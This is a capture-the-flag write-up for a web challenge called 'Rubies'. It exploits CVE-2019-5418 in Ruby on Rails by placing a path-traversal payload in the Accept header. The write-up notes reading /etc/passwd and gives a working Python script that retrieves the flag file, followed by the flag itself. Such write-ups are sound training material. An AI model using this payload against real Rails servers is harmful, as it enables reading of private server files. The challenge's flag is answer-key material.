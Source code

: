 # Rubies

> **Category**: Web
> **Author**: Stefan

## TL;DR
Exploiting CVE-2019-5418

---

## Challenge Description
The challenge name was "rubies," and we had an image with a ruby. The website title, when base64 decoded, was "rails." Clicking on the image brought me to `/vuln` and returned a 500 server error.

![Writeup_image_1](https://i.imgur.com/G3dmPpJ.png)

## Solution
### Step 1: Identifying the CVE
After some investigation, I looked through the CVEs for Ruby on Rails on cvedetails.com but found nothing relevant. I then googled `ruby rails cve "poc"` (PoC – Proof of Concept), which led us to CVE-2019-5418.

### Step 2: Exploiting the Vulnerability
The vulnerable path was `/vuln`, and we found the [CVE-2019-5418 GitHub repository](https://github.com/mpgn/CVE-2019-5418). By changing the `Accept` header, we could retrieve files from the server.

![Writeup_image_2](https://i.imgur.com/MIHu9dr.png)

### Step 3: Finding the Flag
To identify the flag file path, I first looked into `/etc/passwd`, as the CVE example did. There, I found a user named "gem" with a corresponding home directory, suggesting that the flag might be in that directory.

The payload I used was `../../../../../../../home/gem/flag.txt{{`.

![Writeup_image_3](https://i.imgur.com/y06p0rb.png)

## Script
```python
import requests

url = "http://34.107.71.117:30786/vuln"
headers = {
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36",
    "Accept": "../../../../../../../home/gem/flag.txt{{",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

response = requests.get(url, headers=headers)
print(response.text)
```

## Flag
`CTF{C5547BAA6CE135850B3A728D442925F1AE63F2BF22301676282958A0CE5FAE59}`